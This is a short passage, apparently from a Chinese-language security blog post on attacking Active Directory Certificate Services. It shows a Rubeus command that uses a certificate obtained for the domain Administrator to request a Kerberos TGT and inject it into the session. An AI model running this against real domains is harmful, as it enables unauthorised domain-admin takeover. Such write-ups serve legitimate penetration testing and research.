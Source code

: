 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/AZ5eHSkVJtCRmj2.png)

如上图所示，成功为域管理员用户 Administrator 注册了一个证书。在使用 openssl 转换为 .pfx 格式后，这个证书允许我们通过以 Administrator 的身份请求一个 TGT，相关命令如下。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:Administrator /certificate:C:\Users\Marcus\cert.pfx /password:Passw0rd /ptt
```
